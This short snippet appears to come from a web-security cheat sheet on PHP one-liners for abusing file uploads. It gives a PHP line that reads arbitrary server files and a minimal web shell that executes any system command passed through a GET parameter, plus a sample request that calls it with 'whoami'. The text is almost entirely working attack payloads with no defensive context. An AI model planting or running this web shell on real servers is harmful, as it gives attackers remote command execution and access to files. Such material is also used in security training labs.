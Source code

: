 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter:

`<?php echo system($_GET['command']); ?>`
Once uploaded: 
`GET /example/exploit.php?command=whoami HTTP/1.1`



